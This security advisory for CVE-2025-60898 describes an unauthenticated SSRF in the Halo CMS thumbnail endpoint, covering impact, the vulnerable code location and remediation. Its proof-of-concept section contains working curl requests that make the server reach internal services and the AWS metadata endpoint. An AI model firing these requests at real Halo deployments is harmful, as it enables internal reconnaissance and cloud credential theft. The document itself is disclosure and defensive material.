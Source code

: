 # CVE-2025-60898: Unauthenticated SSRF in Halo CMS Thumbnail Service

<p align="left">
  <a href="https://twitter.com/abdulr7mann">
    <img src="https://img.shields.io/twitter/follow/abdulr7mann" alt="Twitter">
  </a>
</p>

- **Published:** 2025-10-27
- **Reporter:** @abdulr7mann
- **Severity:** Critical (CVSS 9.1)

---

## Summary

Halo CMS versions 2.21 and likely all 2.x releases contain an unauthenticated Server-Side Request Forgery vulnerability in the thumbnail generation service. The `isAccessible()` method in `ThumbnailEndpoint.java` performs server-side HTTP requests to user-controlled URLs without validation, enabling anonymous attackers to probe internal networks, access cloud metadata services, and exfiltrate sensitive information.

- **CVE ID:** CVE-2025-60898
- **CWE:** CWE-918 (Server-Side Request Forgery)
- **CVSS v3.1:** 9.1 Critical — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Affected Versions:** Halo CMS v2.21 (confirmed), likely all 2.x
- **Authentication Required:** None (publicly accessible)

---

## Impact

- Unauthenticated internal network reconnaissance and port scanning
- Access to cloud metadata servers (AWS, GCP, Azure credential theft)
- Internal service discovery and enumeration
- Information disclosure via HTTP response codes and redirects
- Potential access to internal admin panels and databases

---

## Affected Components

- **Product:** Halo CMS
- **Versions:** v2.21 (confirmed), suspected all 2.x series
- **Component:** `application/src/main/java/run/halo/app/core/endpoint/theme/ThumbnailEndpoint.java:75`
- **Vulnerable Method:** `isAccessible(ServerRequest request, URI uri)`
- **Endpoint:** `GET /apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri`
- **RBAC Configuration:** Public access via `role-template-anonymous.yaml`

---

## Technical Details

The `isAccessible()` method accepts arbitrary URIs via the `uri` query parameter and performs HTTP GET requests with `Range: bytes=0-0` headers to verify resource accessibility. No validation is performed on the target URL, allowing requests to private IP addresses (127.0.0.1, 10.0.0.0/8, 192.168.0.0/16), cloud metadata endpoints (169.254.169.254), and internal services. HTTP response codes are returned to the client, enabling service enumeration.

**Root Cause:** Missing URL validation, no private IP filtering, public endpoint access without authentication.

---

## Proof of Concept

**Setup:**
```bash
docker run --add-host=host.docker.internal:host-gateway -d -p 8090:8090 halohub/halo:2.21
python3 -m http.server 8888  # Canary server
```

**Exploit (no authentication required):**
```bash
# SSRF to canary - observe GET request with Range header
curl "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://host.docker.internal:8888/test&size=s"

# Internal service access
curl "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://127.0.0.1:8090/actuator/health&size=s"

# AWS metadata (if deployed on EC2)
curl "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://169.254.169.254/latest/meta-data/&size=s"
```

**Automated PoC:**
```bash
python3 CVE-2025-60898.py http://localhost:8090
python3 CVE-2025-60898.py http://localhost:8090 --target "http://internal-service/"
```

See [detailed technical analysis](CVE-2025-60898-blog-writeup.md) for comprehensive exploitation methodology.

---

## Remediation

**Immediate Actions:**
- Update to latest, or:
- Remove public access to `/thumbnails/-/via-uri` endpoint
- Require authentication for thumbnail generation features
- Deploy network-level egress filtering as temporary mitigation

**Recommended Fixes:**
- Implement strict URL allowlist (approved CDN domains only)
- Block all private IP ranges (RFC 1918, loopback, link-local)
- Validate resolved IP addresses before and after DNS lookup (prevent DNS rebinding)
- Restrict URL schemes to HTTPS only
- Remove RBAC rule granting anonymous access in `role-template-anonymous.yaml`
- Implement request timeouts and response size limits
- Add security logging for all thumbnail URL requests

---

## References

- [Technical Analysis & Exploitation Guide](CVE-2025-60898-blog-writeup.md)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

---
